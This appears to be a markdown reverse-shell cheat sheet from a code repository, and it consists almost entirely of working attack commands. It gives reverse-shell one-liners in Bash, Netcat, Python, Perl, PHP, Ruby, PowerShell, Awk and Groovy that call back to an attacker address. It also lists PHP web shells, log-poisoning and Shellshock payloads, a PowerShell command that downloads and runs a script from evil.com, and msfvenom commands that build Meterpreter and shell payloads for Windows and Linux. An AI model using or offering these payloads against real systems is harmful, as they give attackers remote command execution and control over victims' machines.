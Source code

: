 **Reverse Shell (Cheat Sheet)**

# Reverse Shell (Cheat Sheet)

* Bash

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  
* Web Shell

  ```php
  <?php system($_GET['cmd']);?>
  ```
  
* Web Shell (SSH Log Poisoning) -> /var/log/auth.log

  ```php
  ssh '<?php system($_GET['cmd']); ?>'@192.168.1.2
  ```

* Web Shell (HTTP User-Agent Log Poisoning) -> /var/log/apache2/access.log

  ```cmd
  curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://192.168.1.2/browse.php?file=../../../../../var/log/apache2/access.log"
  ```
  
  ```cmd
  User-Agent: <?php system($_GET['cmd']); ?>
  ```
* Shellshock

  ```cmd
  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/user.sh"
  ```
  
* Netcat

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```

* Perl

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

* Python

  ```cmd
   export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

* PHP

   ```php
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'

  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```

* Ruby

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
* Xterm

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
* Ncat

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

* Powershell

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
  ```

* Awk

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
  
  
* Groovy

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


# Msfvenom

* Php

  ```msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

  ```msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php```

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war```
  
* Aspx

  ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx```

## Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

## Linux

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
